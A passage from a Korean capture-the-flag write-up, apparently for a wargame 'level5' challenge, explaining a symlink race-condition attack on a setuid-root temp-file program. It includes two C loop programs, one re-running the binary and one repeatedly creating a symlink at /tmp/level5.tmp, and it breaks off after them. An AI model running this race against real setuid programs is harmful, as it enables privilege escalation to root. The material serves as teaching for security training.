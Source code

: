 ```ls -al /usr/bin/level5```  
컴퓨터는 다음과 같은 순서에 따라 이 작업을 수행하게 된다.  
1. 프로그램을 실행한다.  
2. 생성한 임시파일과 같은 이름의 파일이 있는지 검사한다.  
3. 같은 이름의 파일이 있으면 삭제를 하고, 없다면 그냥 pass  
4. 임시 파일을 생성한다.  

우리가 심볼릭 링크를 만들어 놓으면 3번에 의해서 삭제가 되어버리므로 무용지물이 된다.  

그러면 어떻게 해야할까?!  
3번에서 삭제를 해버린다면 우리는 3번 이후에 심볼릭 링크를 생성하면 된다.  
바로 3번과 4번 사이를 노리는 것이다.  
그러나 정확히 3번과 4번 사이에 심볼릭 링크를 생성하기는 어렵다.  
그래서 고안된 방법이 '반복'이다. 두 개의 프로그램을 동시에 시행시킨다면 컴퓨터는 두개의 프로그램이 원하는 작업을 모두 수행해야한다.  

그래서 첫째 프로그램이 1을 시키고, 둘째 프로그램이 2를 시킨다면 121212 이런식으로 일은 하던지 12112211212 이런식으로 하던지 특정한 작업 순서에 따라서 두 프로그램이 요구하는 작업을 하게 될 것이다.  

이러한 특성을 이용하여 **root 권한의 setuid가 걸려있는 프로그램을 반복 실행**시키는 프로그램을 만든다. 그리고 **심볼릭 링크를 생성하는 명령을 반복하는 프로그램**을 만들어 두 개의 프로그램을 실행시킨다.  

그래서 우리는 두 개의 프로그램이 심볼릭 링크를 삭제하고 생성하기를 반복하다 보면 언젠가 한번쯤 3번과 4번사이에 심볼릭 링크를 생성하는 명령이 수행되겠지 하고 기대하는 것이다. 딱 한번만이라도 3번과 4번 사이에 심볼릭 링크가 생성된다면 우리가 목적한느 바가 이루어지는 것이기 때문이다.  

이렇게 두 개의 프로그램이 각자 삭제하고 생성하고를 경쟁하고 있는 상태라 하여  
**레이스 컨디션**(race=경쟁, condition=상태)라고 하는 공격 기법이 탄생하게 된 것이다!  

3-(2). 레이스컨디션을 이용해서 풀어보자.  
**level5를 반복 실행하도록 하는 프로그램(loop1)**  
```
#include <unistd.h>

int main() {
  int i;
  for(i=0; i<=1000; i++)
  {
    system("/usr/bin/level5");
  }
}
```  

**심볼릭 링크 생성을 반복하는 프로그램(loop2)**  
```
#include <unistd.h>

int main() {
  int i;
  for (i=0; i<=1000; i++)
  {
    system("ln -s /tmp/b /tmp/level5.tmp");  
  }
}

